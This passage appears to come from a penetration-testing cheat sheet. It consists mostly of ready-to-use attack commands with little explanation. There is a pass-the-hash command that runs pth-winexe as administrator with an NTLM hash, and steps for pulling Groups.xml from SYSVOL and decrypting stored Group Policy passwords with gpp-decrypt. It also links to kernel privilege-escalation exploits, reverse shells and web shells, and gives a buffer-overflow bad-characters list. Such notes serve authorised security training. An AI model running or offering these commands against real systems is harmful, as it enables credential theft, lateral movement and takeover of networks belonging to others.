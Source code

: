 	* ``` wce_protected.exe –w ```
* pass the hash
https://pen-testing.sans.org/resources/papers/gcih/pass-the-hash-windows-10-174913
```bash  
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
pth-winexe -U administrator% //10.11.01.76 cmd
```
* Windows Group Policy Preferences
```cmd
net use z: \\dc01\SYSVOL
dir /s Groups.xml
copy Z:\DOMAIN-NAME-TO-CHANGE\Policies\{...}\Machine\Preferences\Groups\Groups.xml C:\Users\mike.DOMAIN-NAME-TO-CHANGE\Documents
type A Groups.xml
```
```bash
gpp-decrypt
```


## Privilege escalation - Linux
* Mempodipper - Linux Local Root for >=2.6.39, 32-bit and 64-bit (Ubuntu 11.10, 32 bit CVE 2012-0056)
	* http://www.exploit-db.com/download/18411 Mempodipper
* Linux Kernel 2.2.x/2.4.x (RedHat) - 'ptrace/kmod' Local Privilege Escalation
	* https://www.exploit-db.com/exploits/3

## Redis
http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html



## Complete Interactive Reverse Shell
https://innogen-security.com/linux-tty-shell-using-script/

## Web shell php,asp,aspx
https://github.com/grCod/webshells/tree/master/webshells


## Misc Bof
badchars
```
BAD_CHARS +=b'\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f'
BAD_CHARS +=b'\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f'
BAD_CHARS +=b'\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f'
BAD_CHARS +=b'\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f'
BAD_CHARS +=b'\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f'
BAD_CHARS +=b'\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f'
BAD_CHARS +=b'\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f'
BAD_CHARS +=b'\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f'
BAD_CHARS +=b'\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f'
BAD_CHARS +=b'\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f'
BAD_CHARS +=b'\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf'
BAD_CHARS +=b'\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf'
BAD_CHARS +=b'\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf'
BAD_CHARS +=b'\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf'
BAD_CHARS +=b'\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef'
BAD_CHARS +=b'\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
```
